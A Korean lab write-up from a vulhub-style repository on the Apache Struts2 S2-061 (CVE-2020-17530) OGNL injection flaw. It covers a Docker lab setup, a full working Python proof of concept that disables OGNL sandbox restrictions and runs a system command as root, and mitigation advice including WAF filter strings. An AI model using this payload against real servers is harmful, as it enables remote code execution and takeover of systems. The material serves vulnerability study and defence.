# CVE-2020-17530 - Apache Struts2 RCE (s2-061)
#### [pull request 주소](https://github.com/gunh0/kr-vulhub/pull/198)
#### [github link](https://github.com/daehyeok0618/kr-vulhub/tree/main/Struts2/CVE-2020-17530)
#### [참고 자료 vulhub CVE-2020-17530](https://github.com/vulhub/vulhub/tree/master/struts2/s2-061)
## 개요
CVE-2020-17530은 Apache Struts2 프레임워크의 `Struts 2.5.22` 이하 버전에서 발생하는 Remote Code Execution (원격 코드 실행) 취약점입니다. 이 취약점은 `Forced OGNL evaluation`로 인해 발생하며, 공격자가 조작된 OGNL 표현식을 HTTP 요청 내에 주입함으로써 서버 측에서 악성 코드를 실행시킬 수 있습니다.

## 환경 설정
다음을 입력하면 Struts 2.5.25 서버가 시작됩니다.
```bash
docker-compose up -d
```
환경이 시작된 후 `http://your-ip:8080`에 방문하면 간단한 페이지가 표시됩니다.
![image](./image.png)
환경을 구성했습니다.


## POC
다음과 같은 공격 코드를 이용해서 `id` 명령을 실행하는 요청을 보냈습니다. 공격자는 multipart/form-data 요청을 통해 서버의 파라미터 처리 구문에 조작된 OGNL payload를 주입합니다.
```
import requests

url = "http://localhost:8080/index.action"

# exploit payload (multipart/form-data 형식)
payload = '''%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).
(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).
(#bean.setBean(#stack)).
(#context=#bean.get("context")).
(#bean.setBean(#context)).
(#macc=#bean.get("memberAccess")).
(#bean.setBean(#macc)).
(#emptyset=#instancemanager.newInstance("java.util.HashSet")).
(#bean.put("excludedClasses",#emptyset)).
(#bean.put("excludedPackageNames",#emptyset)).
(#arglist=#instancemanager.newInstance("java.util.ArrayList")).
(#arglist.add("id")).
(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).
(#execute.exec(#arglist))}'''

# multipart 형식으로 보냄
files = {
    "id": (None, payload)
}

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36"
}

response = requests.post(url, files=files, headers=headers)

print("Status Code:", response.status_code)
print("Response Body:\n", response.text)
```

![imgage1](./image1.png)
결과를 보면 현재 명령이 루트 권한으로 실행됨을 알 수 있습니다. 즉, 공격자가 웹애플리케이션 서버에서 루트 권한으로 시스템 명령어 실행에 성공하였습니다.

## 결론
+ Apache Struts2 S2-061 (CVE-2020-17530) 취약점은 OGNL 표현식이 잘못 처리되어 공격자가 원격 코드 실행(RCE)을 할 수 있는 심각한 보안 문제입니다. 대응 방안으로는 먼저 Struts를 2.5.26 이상으로 즉시 업데이트해야 하며, struts.xml 설정에서 struts.excludedClasses와 struts.excludedPackageNames를 명시적으로 제한해 OGNL 접근을 차단합니다.
+ 패치가 어려운 환경에서는 WAF를 사용해 %{, freemarker, Runtime 등 의심스러운 문자열이 포함된 요청을 차단하거나 .action 경로에 접근제어를 적용합니다. 또한 웹서버 로그를 분석해 이상 행위를 탐지하고, 정기적인 보안 점검과 의존성 관리 도구를 통해 취약한 라이브러리를 업데이트해야 합니다.
